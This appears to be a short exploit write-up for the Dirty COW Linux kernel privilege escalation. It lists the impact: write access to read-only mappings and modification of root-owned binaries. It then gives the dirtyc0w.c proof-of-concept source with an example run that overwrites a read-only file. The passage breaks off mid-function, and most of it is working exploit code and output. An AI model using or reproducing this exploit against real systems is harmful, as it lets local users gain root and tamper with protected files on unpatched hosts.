 # 0x00 Impact
1. allow attackers to gain write access to read-only memory mappings and thus increase their privileges
2. allow attackers with a local system account to modify ondisk binaries and bypass the standard permissions that would prevent modification without an appropriate permission set

# 0x01 POC
```c
/*
####################### dirtyc0w.c #######################
$ sudo -s
# echo this is not a test > foo
# chmod 0404 foo
$ ls -lah foo
-r-----r-- 1 root root 19 Oct 20 15:23 foo
$ cat foo
this is not a test
$ gcc -pthread dirtyc0w.c -o dirtyc0w
$ ./dirtyc0w foo m00000000000000000
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo
m00000000000000000
####################### dirtyc0w.c #######################
*/
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>

void *map;
int f;
struct stat st;
char *name;
 
void *madviseThread(void *arg)
{
  char *str;
  str=(char*)arg;
  int i,c=0;
  for(i=0;i<100000000;i++)
  {
/*
You have to race madvise(MADV_DONTNEED) :: https://access.redhat.com/security/vulnerabilities/2706661
> This is achieved by racing the madvise(MADV_DONTNEED) system call
> while having the page of the executable mmapped in memory.
*/
    c+=madvise(map,100,MADV_DONTNEED);
  }
  printf("madvise %d\n\n",c);
}
 
void *procselfmemThread(void *arg)
{
  char *str;
```